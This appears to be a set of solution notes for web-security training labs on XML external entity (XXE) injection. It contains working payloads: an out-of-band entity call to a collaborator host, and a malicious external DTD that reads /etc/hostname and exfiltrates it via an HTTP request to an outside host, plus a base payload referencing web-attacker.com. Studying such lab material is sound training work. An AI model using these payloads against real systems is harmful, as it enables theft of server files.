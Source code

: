 **Answer ->**

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://u833k65hpt0lqm9sq8gg7wbutlzbn0.burpcollaborator.net"> %xxe; ]>
	<stockCheck>
		<productId>1</productId>
		<storeId>1</storeId>
	</stockCheck>
```

### Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

`u833k65hpt0lqm9sq8gg7wbutlzbn0.burpcollaborator.net`

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>19</productId>
		<storeId>1</storeId>
	</stockCheck>
```

**Exploit Server →**

```
File: 
	/exploit.dtd
Body: 
	<!ENTITY % file SYSTEM "file:///etc/hostname">
	<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://u833k65hpt0lqm9sq8gg7wbutlzbn0.burpcollaborator.net?x=%file;'>">
	%eval;
	%exfiltrate;
URL: 
	https://exploit-ac8d1f7b1f14413ac092a6fb01000016.web-security-academy.net/exploit.dtd
```

**Base payload ->**

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```

**Answer ->**

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-ac8d1f7b1f14413ac092a6fb01000016.web-security-academy.net/exploit.dtd"> %xxe;]>
	<stockCheck>
		<productId>19</productId>
		<storeId>1</storeId>
	</stockCheck>
```

